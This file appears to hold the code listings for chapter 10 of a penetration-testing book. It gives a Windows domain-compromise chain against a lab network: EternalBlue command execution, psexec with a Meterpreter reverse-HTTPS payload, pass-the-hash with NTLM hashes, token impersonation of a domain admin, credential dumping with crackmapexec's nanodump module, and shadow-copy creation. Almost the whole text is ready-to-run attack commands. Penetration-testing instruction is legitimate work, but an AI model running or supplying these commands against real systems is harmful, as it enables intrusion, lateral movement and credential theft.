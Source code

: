 # Chapter 10 Instructions

### Listing 10.1 Output of the net group command

```
run this on the raditz machine
net group "Domain Admins" /domain 
```

```
Use auxiliary/admin/smb/ms17_010_command
set rhosts 10.0.10.204
set smbdomain .
set smbuser Administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
set threads 10
set command qwinsta
set verbose false
run
```

### Listing 10.3 Opening a new Meterpreter session on 10.0.10.207

```
use exploit/windows/smb/psexec
set rhosts 10.0.10.208
set smbdomain .
set smbuser Administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
set payload windows/x64/meterpreter/reverse_winhttps
exploit
```

### Listing 10.4 Listing available tokens with Incognito

```
load incognito
list_tokens -u
```

### Listing 10.5 Impersonating the domain admin account

```
impersonate_token capsulecorp\serveradmin
```

### Listing 10.6 Harvesting the clear-text password using Mimikatz

```
crackmapexec smb 10.0.10.207 --local-auth -u administrator -H aad3b435b51404eeaad3b435b51404ee:0e17e3e87e6750e503dc2d023f58032e -M nanodump
```

### Listing 10.7 Locating the domain controller’s IP address

```
cme smb 10.0.10.207 --local-auth -u administrator -H aad3b435b51404eeaad3b435b51404ee:0e17e3e87e6750e503dc2d023f58032e -x "cmd /c ping capsulecorp.local"
```

### Listing 10.8 Checking for an existing VSC

```
cme smb 10.0.10.200 -u serveradmin -p 'S3cr3tPa$$!' -x 'vssadmin list shadows'
```

### Listing 10.9 Creating a new VSC

```
vssadmin create shadow /for=C:
```
